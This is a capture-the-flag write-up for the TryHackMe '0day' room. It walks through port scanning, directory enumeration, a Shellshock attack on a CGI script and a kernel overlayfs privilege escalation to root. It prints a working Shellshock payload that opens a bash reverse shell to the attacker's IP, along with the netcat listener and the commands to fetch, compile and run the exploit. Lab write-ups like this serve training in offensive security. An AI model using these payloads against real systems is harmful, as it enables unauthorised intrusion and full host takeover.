










# **TryHackMe: 0day – Writeup**

The **0day** room is a phenomenal playground for understanding legacy but critically severe vulnerabilities. It features a complete compromise path starting with a web server vulnerability that leaks a remote shell, followed by a local kernel exploit to elevate privileges directly to root.

## **1. Reconnaissance & Port Scanning**

I kicked off the assessment with a thorough `nmap` scan to map out the attack surface and identify the precise software versions running on the target.

```
nmap -sV -T5 -p- -vv 10.49.162.115
```

### **Scan Results:**

- **Port 22/tcp:** OpenSSH 6.6.1p1 (Ubuntu)
- **Port 80/tcp:** Apache httpd 2.4.7 (Ubuntu)

## **2. Web Enumeration & Vulnerability Scanning**

With a web server active on Port 80, I initiated directory brute-forcing using `gobuster` to uncover hidden endpoints.



```
gobuster dir -u http://10.49.162.115/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

### **Key Gobuster Findings:**

- `/admin` (Status: 301)
- `/backup` (Status: 301)
- `/secret` (Status: 301)
- `/cgi-bin` (Status: 301) — *Always an immediate point of interest for CGI-based scripts.*

To gain deeper context, I ran a **Nikto** scan against the root directory. Nikto flagged that the underlying Apache version (`2.4.7`) was highly outdated, alongside indicating potential sensitive directories like `/backup/` and `/secret/`.

```
nikto -h http://10.49.162.115/
```





Digging deeper into the `/cgi-bin/` directory, a vulnerability scanner flagged an entry point at `/cgi-bin/test.cgi`. The web server was explicitly confirmed to be vulnerable to the legendary **Shellshock** vulnerability (CVE-2014-6271 / CVE-2014-6278).

## **3. Exploitation & Initial Access (Shellshock)**

The **Shellshock** vulnerability allows an attacker to execute arbitrary commands by manipulating environment variables. When an Apache server runs a CGI script, it passes specific HTTP request headers (like the `User-Agent`) as environment variables to the operating system shell (`bash`). If the version of bash is vulnerable, it executes trailing commands appended to an empty function definition.

### **The Attack Sequence:**

1. I set up a local netcat listener on my attack machine to catch incoming connections:
    
    ```
    nc -lvnp 4444
    ```
    
2. I crafted a malicious `curl` request, injecting a bash reverse shell payload inside the `User-Agent` header, targeting the `/cgi-bin/test.cgi` endpoint:
    
    ```
    curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.145.196/4444 0>&1'" http://10.49.162.115/cgi-bin/test.cgi
    ```
    
    
    
3. The server executed my payload on delivery, providing an interactive reverse shell under the context of the `www-data` user account.
    
    
    

### **Reading the User Flag:**

I ran `whoami` to confirm access and navigated to the `/home` directory. I discovered a single user folder belonging to `ryan`.

```
cd /home/ryan
ls -la
```

Checking the permissions of `user.txt`, I noticed it was globally readable. I extracted the first flag cleanly:

```
cat user.txt
```



## **4. Privilege Escalation (Kernel Exploitation)**

To pivot from `www-data` to a permanent administrative shell, I started gathering local system configuration data. Running `uname -a` gave me a look at the target's operating system environment:

```
uname -a
# Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64
```



The system was running an incredibly old kernel version (**Ubuntu 14.04 / Linux Kernel 3.13.0**). On my Parrot OS machine, I searched local exploit databases for privilege escalation vectors affecting this specific release.

```
searchsploit ubuntu 3.13
```



I identified a severe **overlayfs Local Privilege Escalation** exploit matching this kernel version range (`linux/local/37292.c`).

### **Compiling and Running the Exploit:**

1. **Transferring the Code:** I downloaded the exploit payload onto the target machine's globally writable `/tmp` directory using `wget` from a local Python server:
    
    ```
    cd /tmp
    wget http://192.168.145.196:8080/37292.c
    ```
    
2. **Environment Fixing:** During the execution loop, `gcc` initially failed because of an incomplete binary execution path environment variable (`$PATH`). I expanded it manually to ensure compiler utilities resolved properly:
    
    ```
    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    ```
    
3. **Compilation:** I compiled the raw C script into an executable binary using `gcc`:
    
    ```
    gcc 37292.c -o exploit
    ```
    
4. **Execution:** I launched the compiled file:
    
    ```
    ./exploit
    ```
    
    
    

The script spawned structural threads, successfully mapped the underlying shared overlay directories, and manipulated the tracking layout memory structure (`/etc/ld.so.preload`).

Upon execution completion, running `id` verified that my process token successfully swapped over to a complete administrative context:

```
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

With comprehensive system permissions, I read the final flag stored inside the root directory:

```
cat /root/root.txt
```



## **Conclusion & Key Takeaways**

- **Legacy Vulnerabilities Still Loom:** The Shellshock flaw shows how critical it is to verify that software parsers sanitise web header strings before passing them directly to lower-level system wrappers.
- **Kernel Maintenance is Mandatory:** Leaving an operating system unpatched at the kernel tier means that any lower-tier web server foothold (`www-data`) will inevitably lead to a total host compromise through public local exploits.

